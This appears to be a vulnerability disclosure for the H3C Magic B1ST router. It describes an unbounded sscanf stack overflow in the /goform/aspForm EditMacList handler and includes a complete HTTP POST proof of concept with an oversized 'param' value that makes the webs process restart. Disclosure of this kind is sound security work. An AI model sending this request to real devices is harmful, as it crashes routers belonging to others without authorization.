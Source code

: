 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `EditMacList`, the program will go into the following handling function.

![image-20230610001753758](assets/image-20230610001753758.png)



First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v12`, `v14`, `v15`, `v13`  on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.

![image-20230610001819449](assets/image-20230610001819449.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;;;
```

## Result

the process `webs` restart

![image-20230610124047431](assets/image-20230610124047431.png)
